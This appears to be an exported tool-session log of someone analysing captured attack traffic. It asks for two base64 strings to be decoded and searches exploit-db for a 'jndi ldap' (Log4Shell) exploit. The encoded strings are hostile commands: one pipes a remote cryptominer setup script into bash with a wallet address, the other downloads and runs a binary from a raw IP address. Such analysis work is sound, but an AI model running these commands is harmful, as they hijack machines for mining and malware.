 

## Prompt: Try again to decode the string and show the outputs

**Run ID:** `run_9CZYe46anq0lt4wxiS0u2WRB`

### Funciton Calls
**Step ID:** `step_JlaMLVvprWuGXBTL65ppAcWn`

**Function called:** `code_interpreter`

| Argument | Value |
| --- | --- |
| `code` | `Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO` |
| `decode_type` | `base64` |

| Output | Value |
| --- | --- |


**Function called:** `code_interpreter`

| Argument | Value |
| --- | --- |
| `code` | `cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy` |
| `decode_type` | `base64` |

| Output | Value |
| --- | --- |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Try searching exploit db again until you find the exploit used

**Run ID:** `run_kwuSIW23LzyjIUpMmN0v992t`

### Funciton Calls
**Step ID:** `step_z2g8ry8D6sVk8Qj8ze7740Au`

**Function called:** `search_exploitdb`

| Argument | Value |
| --- | --- |
| `search_text` | `jndi ldap` |

| Output | Value |
| --- | --- |
| `jndi ldap` | `{'exploitdb': ''}` |
